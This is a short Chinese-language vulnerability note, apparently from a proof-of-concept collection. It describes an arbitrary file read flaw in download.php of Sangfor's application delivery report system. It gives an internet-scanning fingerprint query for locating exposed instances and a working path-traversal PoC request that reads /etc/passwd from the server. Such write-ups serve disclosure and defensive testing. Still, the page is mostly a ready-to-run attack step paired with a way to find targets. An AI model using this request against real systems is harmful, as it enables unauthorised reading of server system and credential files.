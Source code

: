 # 深信服 应用交付报表系统 download.php 任意文件读取漏洞

# 深信服 应用交付报表系统 download.php 任意文件读取漏洞

## 漏洞描述

深信服 应用交付报表系统 download.php文件存在任意文件读取漏洞，攻击者通过漏洞可以下载服务器任意文件

## 漏洞影响

```
深信服 应用交付报表系统
```

## 网络测绘

```
app="SANGFOR-应用交付报表系统"
```

## 漏洞复现

登录页面

![image-20220525144847811](/images/202205251448956.png)

验证POC

```
/report/download.php?pdf=../../../../../etc/passwd
```

![image-20220525144958637](/images/202205251449708.png)

